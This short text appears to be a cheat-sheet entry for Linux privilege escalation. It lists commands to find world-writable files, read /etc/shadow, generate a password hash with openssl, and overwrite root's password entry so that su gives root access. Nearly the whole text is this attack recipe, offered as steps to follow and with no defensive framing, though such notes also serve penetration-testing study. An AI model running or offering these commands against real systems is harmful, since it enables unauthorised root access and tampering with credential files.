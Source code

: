 
The following command will look for files (and not symlinks etc) which is world writable
- find / -not -type l -perm -o+w
- ls -l /etc/shadow 
- cat /etc/shadow
By adding a known password in shadow file, one can escalate to root. Use openssl to generate a password entry
- openssl passwd -1 -salt abc password
- vim /etc/shadow
- edit root password
- su 
- password for root is : password

